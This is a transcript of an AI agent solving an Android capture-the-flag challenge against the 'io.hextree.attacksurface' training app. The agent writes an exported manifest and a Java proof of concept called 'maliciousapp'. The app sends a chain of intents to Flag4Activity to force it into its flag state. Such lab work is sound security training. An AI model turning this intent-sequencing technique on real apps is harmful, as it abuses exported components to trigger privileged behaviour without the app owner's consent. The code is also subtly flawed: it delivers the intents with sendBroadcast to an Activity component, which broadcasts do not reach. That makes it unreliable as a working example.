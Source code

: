 *   **States:** `INIT`, `PREPARE`, `BUILD`, `GET_FLAG`, `REVERT`
*   **Transitions:**
    *   `INIT` + `PREPARE_ACTION` -> `PREPARE`
    *   `PREPARE` + `BUILD_ACTION` -> `BUILD`
    *   `BUILD` + `GET_FLAG_ACTION` -> `GET_FLAG`
    *   `GET_FLAG` + *any* intent -> `INIT` + `success(this)` (FLAG!)
    *   `REVERT` + `INIT_ACTION` -> `INIT`

The goal is to reach the `GET_FLAG` state and then send *any* intent to trigger the `success()` method.

Here's my plan to create the malicious app:

1.  Create an `AndroidManifest.xml` with the necessary permissions and an exported activity.
2.  Create a Java file with the code to send the following sequence of intents:
    *   `PREPARE_ACTION`
    *   `BUILD_ACTION`
    *   `GET_FLAG_ACTION`
    *   *any* intent

Now, let's start creating the malicious app. First, the `AndroidManifest.xml`.


Function Call: id=None args={'content': '<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousapp">\n\n    <application\n        android:allowBackup="true"\n        android:icon="@mipmap/ic_launcher"\n        android:label="@string/app_name"\n        android:roundIcon="@mipmap/ic_launcher_round"\n        android:supportsRtl="true"\n        android:theme="@style/Theme.MaliciousApp">\n        <activity\n            android:name=".MainActivity"\n            android:exported="true">\n            <intent-filter>\n                <action android:name="android.intent.action.MAIN" />\n\n                <category android:name="android.intent.category.LAUNCHER" />\n            </intent-filter>\n        </activity>\n    </application>\n\n</manifest>', 'file_path': 'Android-2/AndroidManifest_PoC.xml'} name='write_to_file'
----------
Role: tool
Function Call: None
----------
Role: model
Text: OK, the `AndroidManifest.xml` is written. Now, let's create the Java file with the code to send the intents.


Function Call: id=None args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Context;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MainActivity extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        sendIntent(PREPARE_ACTION);\n        sendIntent(BUILD_ACTION);\n        sendIntent(GET_FLAG_ACTION);\n        sendIntent("TRIGGER_FLAG"); // Any intent after GET_FLAG\n\n        finish(); // Close the malicious activity\n    }\n\n    private void sendIntent(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n        Log.d("MaliciousApp", "Sent intent: " + action);\n    }\n}', 'file_path': 'Android-2/MaliciousFlag4PoC.java'} name='write_to_file'
----------
Role: tool
Function Call: None
----------
